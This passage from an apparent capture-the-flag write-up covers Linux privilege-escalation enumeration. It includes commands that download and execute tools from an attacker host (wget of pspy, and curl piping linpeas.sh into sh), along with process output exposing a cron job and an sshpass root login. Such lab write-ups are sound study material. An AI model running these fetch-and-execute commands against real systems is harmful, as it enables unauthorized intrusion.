 ```shell
ArthurMorgan@incognito:~$ wget http://10.9.0.253/pspy64 -O /tmp/pspy;chmod +x /tmp/pspy;/tmp/pspy
[...]
2023/01/20 10:26:35 CMD: UID=1002 PID=1332   | ssh root@localhost 
2023/01/20 10:26:35 CMD: UID=1002 PID=1331   | sshpass -p {Redacted} ssh root@localhost 
2023/01/20 10:26:35 CMD: UID=1002 PID=1324   | python3 /home/marston/hicckup.py
[...]
2023/01/20 10:27:01 CMD: UID=0    PID=5598   | /usr/sbin/CRON -f 
2023/01/20 10:27:01 CMD: UID=0    PID=5597   | /usr/sbin/CRON -f 
2023/01/20 10:27:01 CMD: UID=1002 PID=5599   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5603   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5602   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5601   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5600   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5607   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5606   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5605   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5604   | /bin/bash /home/marston/run.sh 
[...]
2023/01/20 10:28:01 CMD: UID=1002 PID=5613   | /bin/bash /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=1002 PID=5612   | /bin/sh -c /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=0    PID=5611   | /usr/sbin/CRON -f 
2023/01/20 10:28:01 CMD: UID=1002 PID=5617   | wc -l 
2023/01/20 10:28:01 CMD: UID=1002 PID=5616   | /bin/bash /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=1002 PID=5615   | /bin/bash /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=1002 PID=5614   | /bin/bash /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=1002 PID=5621   | /bin/bash /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=1002 PID=5620   | /bin/bash /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=1002 PID=5619   | /bin/bash /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=1002 PID=5618   | /bin/bash /home/marston/run.sh
```

So there is a cronjob that running `/bin/bash /home/marston/run.sh` every minute. However, we don't have access to that sh script file...

In here, I didn't find anything useful in manual enumeration and low hanging fruits. Let's use LinPEAS.

**LinPEAS:**
```shell
┌[root♥siunam]-(/usr/share/peass/linpeas)-[2023.01.20|18:35:55(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
ArthurMorgan@incognito:~$ curl -s http://10.9.0.253/linpeas.sh | sh
[...]
                ╔════════════════════════════════════════════════╗
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════
                ╚════════════════════════════════════════════════╝
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
[...]
marston    931  0.0  0.3  28604  1680 ?        Ss   07:54   0:00 tmux new-session -d
[...]
╔══════════╣ Login now
 10:37:20 up  2:44, 20 users,  load average: 0.38, 0.10, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
marston  pts/0    tmux(931).%0     07:54    2:42m  0.87s  0.87s -bash
marston  pts/1    tmux(931).%1     07:54    2:42m  1.25s  1.25s -bash
marston  pts/2    tmux(931).%2     07:54    2:42m  0.94s  0.94s -bash
marston  pts/3    tmux(931).%3     07:54    2:42m  0.48s  0.48s -bash
marston  pts/4    tmux(931).%4     07:54    2:42m  0.56s  0.56s -bash
marston  pts/5    tmux(931).%5     07:54    2:42m  0.95s  0.95s -bash
```